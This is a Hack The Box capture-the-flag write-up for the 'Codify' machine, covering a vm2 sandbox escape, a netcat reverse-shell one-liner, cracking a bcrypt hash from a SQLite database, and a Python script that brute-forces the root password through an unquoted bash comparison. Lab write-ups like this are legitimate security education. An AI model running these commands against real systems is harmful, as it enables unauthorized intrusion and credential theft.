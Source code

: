 # Diagnostic

## Machine Details 

- **CTF:** Hack The Box
- **Category:** Linux
- **Points:** 20

## Solution

Let's discover open ports with `nmap`:

```sh
$ nmap -A -T4 10.10.11.239
Starting Nmap 7.94 ( https://nmap.org ) at 2024-02-29 18:16 CET
Nmap scan report for 10.10.11.239
Host is up (0.030s latency).
Not shown: 995 closed tcp ports (conn-refused)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
|_  256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
80/tcp   open  http        Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://codify.htb/
3000/tcp open  http        Node.js Express framework
|_http-title: Codify
8000/tcp open  http        SimpleHTTPServer 0.6 (Python 3.10.12)
|_http-server-header: SimpleHTTP/0.6 Python/3.10.12
|_http-title: Directory listing for /
8080/tcp open  http-proxy?
```

We need to append `codify.htb` to `/etc/hosts`:

```sh
echo "MACHINE_IP_ADDRESS codify.htb" | sudo tee -a /etc/hosts > /dev/null
```

Next, we can access it in browser *([http://codify.htb/](http://codify.htb/))*:

![initial](./initial.jpg)

Let's see `About us` page:

![about_us](./about_us.jpg)

It says it is using the `vm2` library to run `Javascript` code in a sandbox environment. And there is a link to `vm2` library on `GitHub`, let's see it:

![vm2](./vm2.jpg)

We can find [CVE-2023–30547](https://www.uptycs.com/blog/exploitable-vm2-vulnerabilities?source=post_page-----7c9b3c0dfef5--------------------------------) vulnerability, which allows an attacker to bypass sandbox limitations and execute arbitrary code in the host environment. And [here](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244) is the exploit itself, let's try it out:

![passwd](passwd.jpg)

It's working! So let's move on. We can try to establish `reverse shell` with command `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc YOUR_IP_ADDRESS 9001 >/tmp/f`. Also you need to execute `nc -l 9001` on your local machine to listen for incoming connections on port `9001`:

![nc](./nc.jpg)

Under `/var/www/contact` we can find `tickets.db` file, let's see what's inside it:

```sh
svc@codify:/var/www/contact$ cat tickets.db
cat tickets.db
?T5??T?format 3@  .WJ
       otableticketsticketsCREATE TABLE tickets (id INTEGER PRIMARY KEY AUTOINCREMENT, name TEXT, topic TEXT, description TEXT, status TEXT)P++Ytablesqlite_sequencesqlite_sequenceCREATE TABLE sqlite_sequence(name,seq)??	tableusersusersCREATE TABLE users (
        id INTEGER PRIMARY KEY AUTOINCREMENT, 
        username TEXT UNIQUE, 
        password TEXT
??G?joshua$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
```

We can find password for `joshua` user, let's crack it, using [john](https://www.openwall.com/john/):

```sh
$ echo '$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2' > to_crack.txt
$ john --wordlist=dictionaries/rockyou.txt to_crack.txt
Warning: detected hash type "bcrypt", but the string is also recognized as "bcrypt-opencl"
Use the "--format=bcrypt-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Warning: invalid UTF-8 seen reading ./tools/john/run/john.pot
Cost 1 (iteration count) is 4096 for all loaded hashes
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
spongebob1       (?)     
1g 0:00:02:05 DONE (2024-02-29 19:55) 0g/s 10.73p/s 10.73c/s 10.73C/s teacher..boogie
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

So the credentials are `joshua:spongebob1`. Let's try to login with ssh:

```sh
$ ssh joshua@10.10.11.239
joshua@10.10.11.239's password: spongebob1
joshua@codify:~$
```

We are in! Let's see what we have here:

```sh
joshua@codify:~$ ls
user.txt
joshua@codify:~$ cat user.txt 
3118448e186ca7b84655a5175599b68f
```

We now need to escalate our priveleges to `root` user, let's begin with `sudo -l`:

```sh
sudo -l
[sudo] password for joshua: 
Matching Defaults entries for joshua on codify:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
```

We can execute some `mysql-backup.sh` as root, let's see it's content:

```sh
cat /opt/scripts/mysql-backup.sh
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
```

The thing is, that if the right side of `$DB_PASS == $USER_PASS` is not quoted, bash uses pattern matching instead of interpreting it as a string. This means that if we enter wildcard `*`, it should bypass this authentication:

```sh
sudo /opt/scripts/mysql-backup.sh
Enter MySQL password for root: *
Password confirmed!
...
```

We can now write following script to get the full `root` password:

```py
import string
import subprocess
all = list(string.ascii_letters + string.digits)
password = ""
found = False

while not found:
    for character in all:
        command = f"echo '{password}{character}*' | sudo /opt/scripts/mysql-backup.sh"
        output = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True).stdout

        if "Password confirmed!" in output:
            password += character
            print(password)
            break
    else:
        found = True
```

Then we need to give to it executable permissions with `chmod +x script.py` and run it:

```sh
$ python3 script.py 
k
kl
klj
kljh
kljh1
kljh12
kljh12k
kljh12k3
kljh12k3j
kljh12k3jh
kljh12k3jha
kljh12k3jhas
kljh12k3jhask
kljh12k3jhaskj
kljh12k3jhaskjh
kljh12k3jhaskjh1
kljh12k3jhaskjh12
kljh12k3jhaskjh12k
kljh12k3jhaskjh12kj
kljh12k3jhaskjh12kjh
kljh12k3jhaskjh12kjh3
```

Let's switch to `root:kljh12k3jhaskjh12kjh3`:

```sh
$ su root
Password: kljh12k3jhaskjh12kjh3
root@codify:/home/joshua#
```

Pwned! Let's get `root flag`:

```sh
root@codify:~# cat /root/root.txt 
0ebefebf5f0e76f36fad74821cdab175
```

## Final Flags

user: `3118448e186ca7b84655a5175599b68f`
root: `0ebefebf5f0e76f36fad74821cdab175`

*Created by [bu19akov](https://github.com/bu19akov)*